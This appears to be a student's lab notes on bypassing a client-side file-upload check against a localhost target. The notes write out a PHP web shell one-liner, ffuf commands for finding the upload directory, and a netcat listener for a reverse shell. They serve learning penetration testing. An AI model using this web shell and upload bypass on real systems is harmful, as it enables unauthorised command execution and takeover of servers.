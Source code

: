
check the types of file that can be uploaded

only .jpg and .png allowed

**open network tab and see if any request going when you try to upload wrong type of file
if no request in network tab then file type checking done on client side 
else if any requests in network tab when we try to upload wrong type of file means checking done on server side**

**If checking done on client side, send correct file type, intercept the request, modify the file type and data and forward it and see if it is accepted**

here this method works as we upload png, intercept the request and change it to a php file


![[Pasted image 20230716002007.png]]


![[Pasted image 20230716001923.png]]

![[Pasted image 20230716002046.png]]



we are able to intercept the request, change the file type to .txt and forward it


```php
<?php system($_GET['cmd']);?>
```

dont forget ;
system is a function that executes the commands
$_GET gets the parameter passed inside GET request

![[Pasted image 20230716002507.png]]

![[Pasted image 20230716002558.png]]

now need to check where the file has been uploaded

```sh
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://localhost/FUZZ 
```

/labs gives 301 so FUZZ that as well

```sh
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://localhost/labs/FUZZ 
```

/uploads gives 301 response code

![[Pasted image 20230716003416.png]]

need to pass the parameter

![[Pasted image 20230716003501.png]]

![[Pasted image 20230716003538.png]]



For reverse shell upload rev.php

![[Pasted image 20230716003859.png]]

![[Pasted image 20230716003923.png]]


setup netcat

```sh
nc -nvlp 4444
```

go to
localhost/labs/uploads/rev.php

![[Pasted image 20230716004045.png]]



